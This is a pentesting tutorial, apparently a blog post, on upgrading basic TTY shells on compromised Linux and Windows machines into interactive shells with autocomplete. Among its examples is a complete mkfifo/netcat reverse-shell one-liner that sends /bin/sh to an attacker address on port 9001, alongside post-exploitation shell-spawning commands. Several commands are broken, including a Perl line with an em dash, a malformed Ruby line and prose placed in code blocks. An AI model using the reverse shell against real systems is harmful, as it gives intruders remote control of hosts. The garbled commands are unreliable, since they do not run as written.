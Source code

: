 ```yaml
---
title:  Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
---
```

## Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify installed language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:
```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```
### Examples

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh -i
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
ruby: exec "/bin/sh"
```

```bash
# if python isn't installed, then use:
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.xxx.xxx 9001 >/tmp/f
```
After you have choosen one of these, to get an autocomplete shell, use:

```bash
ctrl-z 

stty raw -echo; fg

# send to background

# On attacker's machine

stty raw -echo 

stty -a 

get local number of rows & columns
fg 
# Press Enter Enter

Now you should have an autocomplete shell
```
